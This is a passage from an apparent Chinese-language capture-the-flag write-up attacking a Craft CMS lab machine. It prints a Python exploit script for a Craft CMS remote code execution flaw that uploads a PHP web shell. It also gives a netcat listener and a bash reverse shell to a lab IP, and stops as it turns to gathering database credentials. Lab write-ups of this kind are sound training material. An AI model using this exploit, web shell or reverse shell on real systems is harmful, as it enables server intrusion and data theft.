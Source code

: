 ### Exploitation

使用公開的 exploit：

```python
#!/usr/bin/env python3
import requests
import sys

def exploit(target):
    # Craft CMS RCE payload
    payload = {
        'action': 'conditions/render',
        'configObject[class]': 'craft\\elements\\conditions\\ElementCondition',
        'config': '{"name":"configObject","as ":{"class":"Imagick", "__construct()":{"files":"msl:/tmp/php*"}}}'
    }

    # Upload malicious image
    files = {
        'file': ('shell.php', '<?php system($_GET["cmd"]); ?>', 'application/x-php')
    }

    print(f"[+] Exploiting {target}")
    r = requests.post(f"{target}/index.php", data=payload, files=files)

    if r.status_code == 200:
        print("[+] Shell uploaded!")
        return True
    return False

if __name__ == "__main__":
    target = "http://10.10.11.245"
    exploit(target)
```

取得 webshell 後升級為反向 shell：

```bash
# 監聽
nc -lvnp 4444

# Webshell 執行
bash -c 'bash -i >& /dev/tcp/10.10.14.15/4444 0>&1'
```

獲得 `www-data` 用戶的 shell。

## 後滲透 - 資訊收集

### 發現數據庫憑證

檢查 Craft CMS 配置文件：
